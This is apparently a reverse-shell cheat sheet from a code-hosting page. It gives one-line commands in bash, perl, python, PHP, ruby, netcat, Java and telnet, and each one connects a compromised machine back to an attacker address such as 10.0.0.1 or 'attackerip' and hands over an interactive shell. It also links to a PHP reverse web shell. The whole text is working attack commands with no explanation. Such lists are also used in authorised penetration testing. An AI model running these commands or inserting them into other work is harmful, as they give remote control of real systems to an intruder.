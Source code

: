 ### bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  
or:
while read line 0<&5; do $line 2>&5 >&5; done

### perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

### python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP_Shell
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

### ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby that doesn't depend on /bin/sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

ruby on windows
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### netcat
nc -e /bin/sh 10.0.0.1 1234

nc -c /bin/sh attackerip 4444

/bin/sh | nc attackerip 4444

rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p

wrong version of netcat:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

#java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

### telnet
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp
